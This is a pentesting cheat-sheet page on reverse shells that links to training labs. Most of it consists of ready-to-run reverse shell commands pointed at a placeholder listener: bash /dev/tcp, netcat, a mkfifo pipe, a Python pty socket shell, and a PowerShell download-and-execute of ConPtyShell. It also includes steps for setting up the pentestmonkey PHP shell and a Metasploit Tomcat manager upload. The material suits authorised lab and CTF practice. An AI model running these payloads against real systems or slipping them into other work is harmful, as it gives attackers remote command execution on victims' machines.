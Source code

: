 # Reverse shell

[![shells_and_payloads](../../../_badges/htb/shells_and_payloads.svg)](https://academy.hackthebox.com/course/preview/shells--payloads)
[![fileuploadattacks](../../../_badges/htb/fileuploadattacks.svg)](https://academy.hackthebox.com/course/preview/file-upload-attacks)
[![introtoshells](../../../_badges/thmp/introtoshells.svg)](https://tryhackme.com/room/introtoshells)

<div class="row row-cols-lg-2"><div>

When a victim <small>(client)</small> connects to a server <small>(hacker)</small>, we gain access to what we call a 'reverse shell,' allowing us to run commands on the victim and maybe compromise it.

The 'reverse' comes from the fact that the target is the one connecting to use, while with ssh or other remote tools, the client is 'normally' the one initiating the connection. 💥

The hacker will run a listener on their machine and wait for the compromised target to connect back to it, e.g. wait for the target to execute the reverse shell payload 🪲.
</div><div>

You will have to configure the selected reverse shell that you will use to connect back to the listener. For the commands below, we consider the host with the listener IP to be `x.y.z.t`; port `4444` .

If your target is missing a binary, you may be able to download a precompiled version on [andrew-d GitHub](https://github.com/andrew-d/static-binaries/tree/master/binaries) <small>(2.9k ⭐, 2020 🪦)</small>.

**For the listener**, you can use tools listed in [Remote Shell](../index.md#remote-shell-) or a simple instable netcat listener listening on the selected port:

```shell!
$ nc -lvnp 4444 # await the reverse shell payload execution
```
</div></div>

<hr class="sep-both">

## Revshells website

<div class="row row-cols-lg-2"><div>

[revshells](https://www.revshells.com/) is a popular website to create reverse shell payloads, along with generating listener commands.

* Example: "Bash" client

```shell!
$ sh -i >& /dev/tcp/x.y.z.t/4444 0>&1
```

* Example: "nc.exe -e" client

```shell!
PS> nc.exe x.y.z.t 4444 -e sh
```

➡️ Select one based on what command you can run on the target.
</div><div>

Other alternatives are:

* [revshellgen](https://github.com/t0thkr1s/revshellgen) (0.4k ⭐, script)
* [ShellPop](https://github.com/0x00-0x00/ShellPop) (1.4k ⭐, script, 2018/2019)
</div></div>

<hr class="sep-both">

## PHP reverse shell

<div class="row row-cols-lg-2"><div>

You could check out [this script by pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) (1.4k ⭐, 2015). This is a well-known reference.

On Kali Linux, there is local copy in `/usr/share/webshells/php/`.

```bash!
$ cp /usr/share/webshells/php/php-reverse-shell.php /tmp/revshell.php
$ sed -i 's/127.0.0.1/x.y.z.t/' /tmp/revshell.php
$ sed -i 's/1234/4444/' /tmp/revshell.php
```
</div><div>
</div></div>

<hr class="sep-both">

## netcat client

[![introtoshells](../../../_badges/thmp/introtoshells.svg)](https://tryhackme.com/room/introtoshells)

<div class="row row-cols-lg-2"><div>

The most common usage is:

```ps
$ nc -c /bin/bash x.y.z.t 4444
```
</div><div>

Netcat option `-e` is often not available due to security measures.

```ps
$ nc x.y.z.t 4444 -e /bin/bash
```
</div></div>

<hr class="sep-both">

## Linux targets

<div class="row row-cols-lg-2"><div>

#### TCP socket

```shell!
$ /bin/bash -i >& /dev/tcp/x.y.z.t/4444 0>&1
```
</div><div>

#### Named pipe

[![shells_and_payloads](../../../_badges/htb/shells_and_payloads.svg)](https://academy.hackthebox.com/course/preview/shells--payloads)

```shell!
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc x.y.z.t 4444 >/tmp/f
```
</div></div>

<hr class="sep-both">

## Windows targets

<div class="row row-cols-lg-2"><div>

You can try [ConPtyShell](https://github.com/antonioCoco/ConPtyShell) (0.7k ⭐).

```ps
PS> IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing)
PS> Invoke-ConPtyShell x.y.z.t 4444
```

```ps
$ curl http://$IP:$PORT/revshell.php -o /dev/shm/revshell.php
$ php /dev/shm/revshell.php
$ export RHOST="10.9.168.80";export RPORT=4444;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```
</div><div>

You can try [powercat](https://github.com/besimorhino/powercat) <small>(2.0k ⭐, powershell netcat client/server)</small>
</div></div>

<hr class="sep-both">

## Tomcat Reverse Shell

<div class="row row-cols-lg-2"><div>

You can use [metasploit](/cybersecurity/red-team/tools/frameworks/metasploit/index.md) to both generate a shell and upload it. It doesn't work with at least tomcat 7.8.

```shell!
$ msfconsole -q
msf6> use exploit/multi/http/tomcat_mgr_upload
msf6> set RHOSTS <target>
msf6> set RPORT 8080
msf6> set HttpUsername username
msf6> set HttpPassword password
msf6> set LHOST tun0
msf6> set VERBOSE true # error 500 == it won't work
msf6> run
```
</div><div>

You can use [msfvenom](/cybersecurity/red-team/tools/frameworks/metasploit/msfvenom.md#-some-payloads-) to generate a reverse shell.

You can also create one manually. For the contents of `index.jsp`, you can use metasploit one or [this one which is similar](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/jsp/jsp-reverse.jsp).

```ps
$ nano index.jsp # fill this file
$ jar -cvf ../revshell.war index.jsp  # it works in v7
$ zip -r revshell.war index.jsp       # it works in v7
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* Python/Mkfifo shells are often more likely to work
* Try double reverse shell?
* [r57shell](https://r57shell.net/)
</div><div>
</div></div>
